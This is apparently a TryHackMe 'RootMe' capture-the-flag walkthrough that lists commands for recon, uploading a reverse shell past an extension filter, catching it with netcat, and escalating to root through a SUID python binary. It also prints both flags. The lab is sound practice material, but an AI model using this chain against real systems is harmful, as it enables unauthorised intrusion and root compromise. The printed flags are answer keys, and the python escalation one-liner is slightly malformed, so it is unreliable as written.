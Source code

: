 # RootMe


## Reconnaissance
1. shows there are 2 ports open: ssh/http
> nmap -sC -sV <ip>
	
2. shows there is a secret page /panel and /uploads (where you can upload things)
> gobuster (-e -u) http://<ip>/ (-w) /usr/share/wordlists/dirb/common.txt (or some other wordlist) 
	
3. upload php-reverse-shell on the /panel/ (change the extension from .php to .phtml)
4. run command to 'execute' reverse shell
> curl http://<ip>/uploads/<name of reverse shell>
	
5. set up netcat listener to catch the shell
> nc -lvnp <port>
	
6. upgrade shell using
> python -c 'import pty;pty.spawn("/bin/bash")'
>> (^Z + stty raw -echo + rerun netcat listener + export TERM=xterm)
	
7. search for the user flag
> find / -type f -name user.txt
--> shows /var/www/user.txt

8. gives the flag THM{y0u_g0t_a_sh3ll}
> cat /var/www/user.txt
	
9. look for SUID permissions
> find / -type f -user root -perm -4000 2>/dev/null
>> / searches whole file system
>> -perm searches for files with specific permissions
>> 2>/dev/null supresses errors
	
10. shows a suspicious user
> /usr/bin/python
	
11. go to <https://gtfobins.github.io/> and look for privilege escalations to elevate privileges --> search python + SUID
> python -c 'import os; os.execl("/bin/sh" "sh", "-p")'

12. now we should have access to root (run whoami)
13. navigate to root folder and print contents of root.txt
> cd /root
> cat root.txt
	
14. received flag THM{pr1v1l3g3_3sc4l4t10n}


